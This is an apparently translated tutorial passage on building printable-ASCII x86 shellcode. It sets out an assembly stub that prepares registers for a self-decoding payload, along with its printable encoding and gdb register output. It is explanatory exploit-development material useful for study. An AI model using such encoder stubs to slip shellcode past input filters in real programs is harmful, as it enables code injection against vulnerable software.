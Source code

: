 
As we can see, the two methods mentioned above use “tools”.
It is a sequence of instructions that edits the registry to be used later to decode.

```asm
Dec esp
Dec esp
Dec esp
Dec esp
pop edx; Retrieves a record the start address of the shellcode.
push dword 0x58494741
pop eax
xor eax, 0x58494741
Dec eax; Retrieves a record FFFFFFFF.
push esp
pop ecx; Retrieves a register address of the stack.
push edx
push ecx
push edx
push eax
push esp
push ebp
push esi
push edi
popad
```





The pop instruction is a printable ascii character only eax, ecx, and edx is why
we use popad after stacked in a specific order all the registries.
Indeed popad equivalent to the following 

```asm
POP EDI 
POP ESI 
POP EBP 
POP ESP 
POP EBX 
POP EDX
POP ECX 
POP EAX
```



Our tools are ready: **eax** with the address of the beginning of the shellcode, **ecx** with the address stack, we use **edx** to xor what we want and finally with FFFFFFFF **ebx** who used xor, "not" equivalent to the statement.

The following statement gives: 

>  LLLLZhAGIXX5AGIXHTYRQRPTUVWa

A tour by gdb to check the registers: 

> ***eax: 080495B4***
>
> ***ebx: FFFFFFFF***
>
> ***ecx: BFC83220***
>
> ***edx: 080495B4***
>
> ***esp: BFC83220***
>
> ***eip: 080495D0***
